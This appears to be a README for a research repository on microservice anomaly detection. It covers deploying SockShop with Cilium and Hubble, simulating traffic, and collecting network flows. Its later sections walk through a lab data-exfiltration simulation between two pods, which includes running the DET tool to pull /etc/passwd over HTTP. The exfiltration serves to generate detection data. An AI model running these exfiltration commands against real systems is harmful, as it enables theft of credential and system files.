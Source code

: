 # Microservice Anomaly Detection
Brian: I want this repository to become the central repository for all things microservice related.
It is a mess and we need to cleanup the whole repository

## Deploying SockShop
1. Optional: Install minikube
2. Optional: Set minikube config to have enough memory and cpu (sets default)
   1. `minikube config set memory 16384`
   2. `minikube config set cpus 10`
3. Optional: If you want to use cilium install cilium `bash install_cilium.sh`
4. Create a profile for your cluster: `minikube profile CLUSTER_NAME`
5. Start minikube: 
   1. Without cilium: `minikube start -p CLUSTER_NAME --memory 8192 --cpus 5`
   2. If using cilium (cilium must be installed): `minikube start --cni=cilium -p CLUSTER_NAME --memory 8192 --cpus 5`
6. Deploy SockShop: `bash deploy_sockshop.sh`

Check status of pods: `kubectl get pods --namespace sock-shop`

Get IP of front-end service: `minikube service --profile CLUSTER_NAME --url front-end -n sock-shop` 

Test if it is working `curl http://192.168.49.2:30001` or go to link in browser

## Debugging cilium connectivity 
1. Follow the guide for first time : https://kubernetes.io/docs/tasks/administer-cluster/network-policy-provider/cilium-network-policy/
2. Use https://docs.cilium.io/en/stable/gettingstarted/k8s-install-default/ to run tests : cilium connectivity test and cilium status --wait to verify outputs match.

## Simulating Traffic on SockShop
1. cd into `experiment_coordinator`
2. Setup a conda environment: `conda env create -f condaEnv.yml`
3. Cd into `traffic_simulation`
4. Activate conda env: `conda activate sockShop`
If you need to populate the database full of users: `python simulate_traffic.py -p`
4. Simulate traffic: `python simulate_traffic.py -t`

## Collecting Data with Cilium
1. To deploy cilium: `bash deploy_cilium.sh`
2. Test if its working: `cilium connectivity test`
3. Check if hubble is collecting flows : `hubble status`
4. To start collecting `hubble observe -n sock-shop -o json`

Cilium Documentation: https://docs.cilium.io/en/stable/gettingstarted/

## Todo
1. Cleanup Repository
2. Fix Cilium data collection
3. Run data exfiltration attack

## Deployment Instruction [Kirtan]
1. Start minikube: `minikube start --network-plugin=cni -p CLUSTER_NAME`
2. Enable cilium on minikube : `cilium install`
3. Verify cilium is enabled : `cilium status`
4. If you are running for the first time, verify cilium connectivity:`cilium connectivity test` : It takes couple of minutes for this to execute.
5. Enable hubble on cilium : `cilium hubble enable`
6. Enable port forwarding : `cilium hubble port-forward&`
7. Check if hubble is collecting flows : `hubble status`
8. Deploy SockShop: `bash deploy_sockshop.sh`

## DET tool setup
There are 2 containers: users-db and catalogue-db which allows installing dependencies needed by allowing apt-install and updates.
Hence, our goal is to make one of them our DET server i.e. one sending data and other one as client i.e. receiving data.

In order to do that, we first create an additional service on a new port of container users-db as container does not allow
us to run service on a new port once its turned on. Hence,  bash deploy_sockshop_with_det.sh will deploy
sockshop_modified_full_cluster_with_det.yaml which is same as deploy_sockshop_modified_full_cluster.yaml with a new port
added to users_db 27018  LOC :809 as well as a new Service user-db-det: LOC 844.

Here, we will use users_db as our server and catalogue_db as our client.


### Deploy Sock-shop with DET
1. run `bash deploy_sockshop_with_det.sh`

Once the sock-shop completes deployment,
### Getting needed metadata of user-db and catalogue-db pods
1. Get pod ids of users-db and catalogue-db from : `kubectl get pods  -n sock-shop` 
2. Get IP address of user-db-det from : `kubectl get services -o wide -n sock-shop`

### Preparing User-db for DET
1. SSH into users_db using `kubectl exec --stdin --tty user-db-XXXXXXX  --namespace sock-shop -- /bin/bash`
2. For simplehttpserver communication, run following commands:
   1. `apt-get -o Acquire::ForceIPv4=true update`
   2. `apt-get --force-yes -y -o Acquire::ForceIPv4=true install python`
3. For DET, run all the commands given in the file det_dependencies_to_install.txt    

### Preparing Catalogue-db for DET
1. SSH into users_db using `kubectl exec --stdin --tty catalogue-db-XXXXXXX  --namespace sock-shop -- /bin/bash`
2. For simplehttpserver communication, run following commands:
   1. `apt-get -o Acquire::ForceIPv4=true update`
   2. `apt-get --force-yes -y -o Acquire::ForceIPv4=true install curl wget`
3. For DET, run all the commands given in the file det_dependencies_to_install.txt   

### Annotating pods for datacollection
1. Annotate user-db pod for cilium data collection: `kubectl annotate pod user-db-XXXX -n sock-shop io.cilium.proxy-visibility="<Egress/27018/TCP/HTTP>,<Ingress/27018/TCP/HTTP>"`
2. Annotate catalogue-db pod for cilium data collection: `kubectl annotate pod catalogue-db-XXXXx -n sock-shop io.cilium.proxy-visibility="<Egress/27018/TCP/HTTP>,<Ingress/27018/TCP/HTTP>"`


### Turn on hubble data collection
1. Run this command to observe http traffic between server and client and write it to file : `hubble observe  --follow --protocol http -o json > det_data.txt`
2. Run this command to observe http traffic between server and client in command line : ` hubble observe  --follow --protocol http -o json `

### SimpleHTTPPythonServer DET
1. On users-db, start the python server on port 27018 : `python -m SimpleHTTPServer 27018`
2. Get IP Address of the service using `kubectl get services -o wide -n sock-shop` and looking for ip of `user-db-det` in the list.
3. On catalogue-db use wget/curl to retrieve files : `curl 10.103.13.14:27018/bin/sh` or `wget 10.103.13.14:27018/bin/bash`
4. Observe traffic in hubble

### DET using PaulSec/DET tool
Assuming you have installed all the commands in the det_dependencies_to_install.txt on both the catalogue-db and user-db, follow the next steps:
1. Install vim to edit config files for det on both the pods using : `apt-get update`; `apt search vim`; `apt-get install vim`
2. On user-db, 
   1. Open config-server.json and replace http port with 27018 on Line 5 and save the file
   2. Then start the DET server using following command : `python det.py -L -c ./config-server.json -p http`
3. On catalogue-db,
   1. Open config-client.json and replace http port with 27018 on Line 5 and replace IP address with whatever IP you got for user db in metadata colleciton.
   2. After that run the following command to retrieve file that you wish to retrieve: 
      1. `python det.py -c ./config-client.json -p http -f /etc/passwd`
   3. You can also configure max_time_sleep, min_time_sleep,max_bytes_read, min_bytes_read in the config files of both server and client



